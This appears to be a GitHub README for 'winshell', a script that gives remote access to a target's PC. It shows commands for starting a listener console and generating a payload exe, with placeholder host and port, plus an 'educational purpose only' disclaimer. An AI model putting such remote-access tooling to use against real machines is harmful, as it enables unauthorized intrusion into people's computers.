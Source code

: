 # winshell
Simple script to get remote access to targets PC


Educational purpose only             
------------------------------------------

I'm not responsible for your actions 



Run this command it will open console for Listening: python winshell.py -l [You're Host/IP] -p [You're Port] --console 1
Genrating exe File Example: python winshell.py -l [You're Host/IP] -p [You're Port] --name [You're file Name]


Console Example
---------------------------------------------   
command: python winshell.py -l [You're Host/IP] -p [You're Port] --console 1
--------------------------------------------------------------------------------   
<img src="https://github.com/EH30/winshell/blob/master/winshells_console_example.JPG" >

